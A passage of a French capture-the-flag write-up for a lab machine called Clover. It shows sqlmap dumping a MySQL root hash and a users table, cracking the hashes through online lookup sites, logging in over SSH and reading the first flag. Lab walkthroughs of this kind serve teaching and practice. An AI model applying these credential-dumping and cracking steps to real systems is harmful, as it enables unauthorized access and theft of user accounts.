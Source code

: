 Je peux utiliser l'option `--passwords` de `sqlmap` qui me retourne le hash de l'utilisateur root :

```
[*] root [1]:
    password hash: *EE2227E76B10DEA20C821828D6885879FF245EF6
```

Le mot de passe (`astaasta`) est facilement cassé avec https://crackstation.net/

On découvre aussi une base de données nommée `clover` qui a la table `users` suivante :

```
Database: clover
Table: users
[3 entries]
+----+-----------+----------------------------------+
| id | username  | password                         |
+----+-----------+----------------------------------+
| 1  | 0xBush1do | 33a41c7507cy5031d9tref6fdb31880c |
| 2  | asta      | 69a41c7507ad7031d9decf6fdb31810c |
| 3  | 0xJin     | 92ift37507ad7031d9decf98setf4w0c |
+----+-----------+----------------------------------+
```

Seul `asta` dispose d'un hash MD5 valide, les autres contiennent des caractères `y` et `t`.

Il y a peu de sites de reverse MD5 qui ont le hash dans leur base mais je finis par en trouver un qui l'a. Le mot de passe en clair est `asta$$123`.

On peut se connecter en SSH et accéder au premier flag :

```bash
asta@Clover:~$ cat local.txt 



                                |     |
                                \\_V_//
                                \/=|=\/
       Asta PWN!                 [=v=]
                               __\___/_____
                              /..[  _____  ]
                             /_  [ [  M /] ]
                            /../.[ [ M /@] ]
                           <-->[_[ [M /@/] ]
                          /../ [.[ [ /@/ ] ]
     _________________]\ /__/  [_[ [/@/ C] ]
    <_________________>>0---]  [=\ \@/ C / /
       ___      ___   ]/000o   /__\ \ C / /
          \    /              /....\ \_/ /
       ....\||/....           [___/=\___/
      .    .  .    .          [...] [...]
     .      ..      .         [___/ \___]
     .    0 .. 0    .         <---> <--->
  /\/\.    .  .    ./\/\      [..]   [..]
 / / / .../|  |\... \ \ \    _[__]   [__]_
/ / /       \/       \ \ \  [____>   <____]



34f35ca9ea7febe859be7715b707d684
```

